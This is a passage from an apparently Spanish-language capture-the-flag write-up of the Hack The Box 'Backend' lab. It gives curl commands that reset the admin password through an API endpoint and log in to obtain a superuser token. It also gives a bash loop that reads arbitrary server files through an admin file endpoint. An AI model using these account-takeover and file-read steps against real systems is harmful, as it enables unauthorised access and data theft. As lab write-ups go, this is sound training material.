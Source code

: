 ![](/assets/images/htb-backend/backend6.PNG)

En el endpoint nos muestran el comando por curl:
```console
curl -X POST 'http://10.10.11.161/api/v1/user/updatepass' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -H 'Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6Ik...' \
  -d '{ "guid": "36c2e94a-4271-4259-93bf-c96ad5948284", "password": "cucuxii123" }'
```
Como le hemos cambiado la contraseña al admin, deberíamos poder conectanos como él:

```console
└─$ curl -s -X POST http://10.10.11.161/api/v1/user/login -d "username=admin@htb.local&password=cucuxii123"
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MTE0MjgzLCJpYXQiOjE2Njc0MjMwODMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.Ghu7tUuWPi58GvtcdvQnkHc0jZK32VzN1LxrkfKkSgA","token_type":"bearer"} 
```
En el navegador podemos cambiar el authorization bearer por el nuevo para que nos reconozca como admin.
En el endpoint **/admin** nos dicen que si que somos admin ya.

Tenemos el endpoint de comandos -> **/api/v1/admin/exec**
```console
curl -X GET 'http://10.10.11.161/api/v1/admin/exec/whoami' \
  -H 'accept: application/json' \
  -H 'Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpX...' \
{"detail":"Debug key missing from JWT"}   
```

Y el de leer archivos -> **/api/v1/admin/file**, este es mejor scriptearselo para tardar menos
```bash
#!/bin/bash
bearer="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MTE0MjgzLCJpYXQiOjE2Njc0MjMwODMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.Ghu7tUuWPi58GvtcdvQnkHc0jZK32VzN1LxrkfKkSgA"

while true
do
  echo -n "$:> " && read file
  curl -s -X POST 'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -H "Authorization: bearer $bearer" -d '{"file":"'$file'"}' | sed 's/\\n/\n/g' | sed 's/\\u0000/\n/g' ; echo
done
```